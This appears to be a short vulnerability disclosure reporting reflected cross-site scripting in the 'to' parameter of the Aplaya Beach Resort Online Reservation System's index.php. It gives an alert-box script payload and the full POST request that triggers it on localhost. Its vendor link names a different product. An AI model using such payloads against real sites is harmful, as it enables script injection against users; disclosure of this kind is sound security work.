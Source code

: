 Vulnerability discovery author:Qianyongcun

Aplaya Beach Resort Online Reservation System – reflected XSS on (Aplaya/index.php to parameter) 

Vendor Homepage:
https://www.sourcecodester.com/php/14787/elearning-system-using-phpmysqli-source-code.html 

Version:V1.0
Tested on: PHP, Apache, MySQL

Affected Page:
Aplaya/index.php 
On this page,to parameter is vulnerable to reflected XSS Attack 
Proof of vulnerability:
Visit this page：http://localhost/aplaya/index.php 

Payload：
“><script>alert(1)</script>
Request with payload:
POST /Aplaya/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=g883r0l08f296hfd9582abk9v0
Origin: http://localhost
Referer: http://localhost/Aplaya/
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

avail=&from=1&to="><script>alert(1)</script>
Trigger popup：

<img width="416" alt="image" src="https://github.com/qqqyc/vlun1/assets/53200267/54f9670d-1ef1-4ba1-bb31-2f3cb1c38ddb">
